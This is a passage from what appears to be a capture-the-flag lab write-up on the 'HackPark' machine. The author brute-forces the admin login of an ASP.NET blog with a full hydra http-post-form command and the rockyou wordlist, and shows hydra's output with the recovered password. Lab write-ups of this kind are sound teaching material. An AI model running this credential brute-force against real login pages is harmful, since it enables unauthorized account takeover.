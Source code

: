![hack park password retreival](/img/hackpark_http_password_retrieval.png)

Given this user supposed user, and that the earlier broad scan yielded nothing, I supposed it would be worthwhile to kick off a dictionary attack in the background against the `admin` user while I continued to dig around in the site..

### Brute forcing the login page
I returned to the login page and tried a `admin:test` login to try to identify an element that I could use for a failure parameter in hydra. Failed logins spit out a very simple to match `Login failed` string. I then grabbed the rest of the post body from Burp and started a brute with hydra, using rockyou as the source dictionary.

```
[*] exec: hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.167.66 http-post-form "/Account/login.aspx:__VIEWSTATE=n0dSQaeIUU9td9IiqqxUjQRLt5Vfe9tKftxi264M8uj5KA0zULHSKHjNdqwkzcbSpoimIX3xFLnJz6eAk2EmBlJx3HWWy14YxvnbwBNZczvzFuWjEwLsnVK622pYz9Cw7VQBjYDmS0PHqL0lcA5jxvCn9ILgh4J5Oh8k66K0JOnmXtVC&__EVENTVALIDATION=xjUAebAft2KQN5MffRGhUH5IgDIw1wmzjlNgpt8Vb4N2656viCANryx5yExK93%2BExMUVpVlU%2B%2BHh7jZwqAaf0sH%2Fmg1JISBvUobZVuCj573XBsDtL%2BRyJMOr%2BNWlN4XXAuWjifxkURjzlElA8RJsOQnoIxK8J2daZrZu0wEFAHgf62F0&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-18 22:28:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.167.66:80/Account/login.aspx:__VIEWSTATE=n0dSQaeIUU9td9IiqqxUjQRLt5Vfe9tKftxi264M8uj5KA0zULHSKHjNdqwkzcbSpoimIX3xFLnJz6eAk2EmBlJx3HWWy14YxvnbwBNZczvzFuWjEwLsnVK622pYz9Cw7VQBjYDmS0PHqL0lcA5jxvCn9ILgh4J5Oh8k66K0JOnmXtVC&__EVENTVALIDATION=xjUAebAft2KQN5MffRGhUH5IgDIw1wmzjlNgpt8Vb4N2656viCANryx5yExK93%2BExMUVpVlU%2B%2BHh7jZwqAaf0sH%2Fmg1JISBvUobZVuCj573XBsDtL%2BRyJMOr%2BNWlN4XXAuWjifxkURjzlElA8RJsOQnoIxK8J2daZrZu0wEFAHgf62F0&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[80][http-post-form] host: 10.10.167.66   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-18 22:29:01
``` 